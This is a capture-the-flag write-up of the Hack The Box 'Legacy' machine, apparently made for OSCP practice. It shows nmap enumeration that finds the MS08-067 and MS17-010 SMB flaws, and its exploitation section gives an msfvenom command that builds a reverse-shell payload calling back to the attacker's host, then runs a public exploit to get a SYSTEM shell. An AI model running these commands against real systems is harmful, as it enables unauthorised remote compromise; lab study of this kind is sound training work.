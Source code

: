 Title: HTB Legacy box writeup
Tags: oscp, htb
Summary: Quite short walkthrough for this little box
Date: 31/08/2020 15:30
Status: published

Starting series of writeups for a list of machines compiled by TJNull in his well-known 
[blog post](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines).

# Enumeration
Let's dig into this box. We are not restricted with traffic amount or something like that, so I just spinned up the full nmap scan with `-sS`:
<pre>
    # Nmap 7.80 scan initiated Wed Aug 26 12:28:33 2020 as: nmap -sS -p- -oA nmap/nmap-ss-all 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE
    139/tcp  open   netbios-ssn
    445/tcp  open   microsoft-ds
    3389/tcp closed ms-wbt-server

    # Nmap done at Wed Aug 26 12:31:39 2020 -- 1 IP address (1 host up) scanned in 186.30 seconds
</pre>
Unfortunately, SMB server does not allow anonymous logon since `smbclient -N -L \\\\10.10.10.4\\` fails.

Not much ports open there, seems to be only SMB server available at the time. Let's try to dig some more with `-A` and `-sV` on discovered ports:
<pre>
    # Nmap 7.80 scan initiated Wed Aug 26 12:35:32 2020 as: nmap -A -T4 -sV -O -p139,445 -oA nmap/nmap-AT4sVO-open 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.18s latency).

    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
    OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003
    Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), Microsoft Windows XP SP2 or Windows Small Business Server 2003 (90%), 
    Microsoft Windows XP SP2 (89%), Microsoft Windows Server 2003 (87%), Microsoft Windows XP SP2 or SP3 (87%), Microsoft Windows XP SP3 (87%), 
    Microsoft Windows 2000 SP4 (86%), Microsoft Windows XP Professional SP2 (86%), Microsoft Windows XP Professional SP3 (86%), 
    Microsoft Windows XP SP2 or Windows Server 2003 (86%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: -4h27m15s, deviation: 2h07m16s, median: -5h57m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3d:03 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2020-08-26T12:38:29+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

    TRACEROUTE (using port 139/tcp)
    HOP RTT       ADDRESS
    1   120.17 ms 10.10.14.1
    2   290.33 ms legacy.htb (10.10.10.4)

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Aug 26 12:36:36 2020 -- 1 IP address (1 host up) scanned in 63.88 seconds
</pre>

Well it's really seems to be _legacy_ since nmap suggests that this box running Windows XP. Though these results may not be accurate, `smb-os-discovery` also
suggests so, I'll take a mental note about this - it might be vulnerable to some antediluvian vulnerabilities.  
Nmap has some more interesting scripts for SMB, worth trying to scan using them:
<pre>
    # Nmap 7.80 scan initiated Wed Aug 26 12:49:00 2020 as: nmap -p445,139 --script=smb-vuln* -oA nmap/smb-vuln-mass 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).

    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    # Nmap done at Wed Aug 26 12:49:07 2020 -- 1 IP address (1 host up) scanned in 7.25 seconds
</pre>

Gotcha! Notice that it's 'likely vulnerable' to CVE-2008-4250 (MS08-067). Pretty old vulnerability, this looks consonant
with box name. 

# Exploitation
There is some exploit code for MS08-67 in [github](https://github.com/andyacer/ms08_067.git). Looks neat, without pranks or `rm -rf` stuff within.
I've just generated payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 EXITFUNC=thread -f c -o shell.c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
and put that shellcode instead of the one that was in the script already. Initially I forgot to set badchars and it was not working for that reason, but
eventually I read the exploit script and notices some examples. Lesson learned - do not hurry! I must have thought that this exploit is broken or something
if I didn't read carefully.  
Exploit script had multiple choices for targets, I decided to start from end and used `./ms08_067_2018.py 10.10.10.4 7 445` - bullseye! Shell popped out on my 
`multi/handler` running.

# Post-exploitation
As per `systeminfo` this box is indeed running Windows XP SP3. Unfortunately it doesn't have `whoami` in the command line shell and `echo %USERNAME%` didn't work
for some reason (emitted nothing). So I had to determine current user by indirect methods. First, I suggest that since SMB server service got exploited, it's likely
a SYSTEM shell. Two little commands to prove that hypothesis. Who wants to go directly for the root flag? That's boring :)  
First command is `set`, which will show us some current envars:

![set output](/cstatic/htb-legacy/set.png)

Take a look at `USERPROFILE` envar - it shows us a special folder.

Second command is `reg query "HKU\S-1-5-19"` which tries to query some keys that only administrator could get.

![reg query output](/cstatic/htb-legacy/hku.png)

We indeed having at least administrative rights on this box. Safe to go ahead and grab root flag:

![root flag](/cstatic/htb-legacy/flag.png)

